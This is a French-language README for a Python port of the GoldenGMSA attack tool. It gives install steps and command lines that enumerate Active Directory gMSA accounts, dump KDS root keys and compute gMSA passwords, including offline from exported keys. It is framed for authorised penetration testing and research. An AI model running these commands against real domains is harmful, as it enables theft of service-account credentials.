 # GoldenGMSA Python

Équivalence Python de l'outil GoldenGMSA pour l'exploitation des Group Managed Service Accounts (gMSA) dans Active Directory.

## Installation

```bash
# Cloner le repository
git clone https://github.com/felixbillieres/goldenGMSA.git
cd goldenGMSA/golden_gmsa_python

# Créer un environnement virtuel
python3 -m venv venv
source venv/bin/activate

# Installer les dépendances
pip install -r requirements.txt
```

## Utilisation

### Authentification au domaine

```bash
# Avec authentification (recommandé)
python main.py -u 'DOMAIN\username' -p 'password' --domain domain.local gmsainfo

# Ou avec format UPN
python main.py -u 'user@domain.local' -p 'password' --domain domain.local gmsainfo

# Avec IP du contrôleur de domaine
python main.py -u 'user@domain.local' -p 'password' --domain domain.local --dc-ip 192.168.1.10 gmsainfo

# Avec LDAPS (SSL)
python main.py -u 'user@domain.local' -p 'password' --domain domain.local --use-ssl gmsainfo
```

### Commandes disponibles

```bash
# Énumérer tous les gMSA du domaine
python main.py -u 'user@domain.local' -p 'password' --domain domain.local gmsainfo

# Interroger un gMSA spécifique par SID
python main.py -u 'user@domain.local' -p 'password' --domain domain.local gmsainfo --sid <SID_GMSA>

# Dumper toutes les clés racine KDS
python main.py -u 'user@domain.local' -p 'password' --domain domain.local kdsinfo

# Calculer le mot de passe d'un gMSA
python main.py -u 'user@domain.local' -p 'password' --domain domain.local compute --sid <SID_GMSA>

# Mode hors ligne (sans authentification, avec clés exportées)
python main.py compute --sid <SID_GMSA> --kdskey <BASE64_KEY> --pwdid <BASE64_PWDID>

# Voir toutes les options
python main.py --help
```

### Formats d'authentification supportés

- **UPN** : `user@domain.local`
- **NetBIOS** : `DOMAIN\username`
- **Simple** : `username` (le domaine sera ajouté automatiquement)

## Avertissement

Cet outil est destiné uniquement à des fins de **test de pénétration autorisé** et de **recherche en sécurité**. L'utilisation de cet outil sur des systèmes sans autorisation explicite est **illégale**.

## Licence

MIT License

## Auteur

**Félix Billières (Elliot Belt)**

## Crédits

Basé sur la recherche de Yuval Gordon ([@YuG0rd](https://twitter.com/YuG0rd)) - [Introducing the Golden GMSA Attack](https://www.semperis.com/blog/golden-gmsa-attack/)
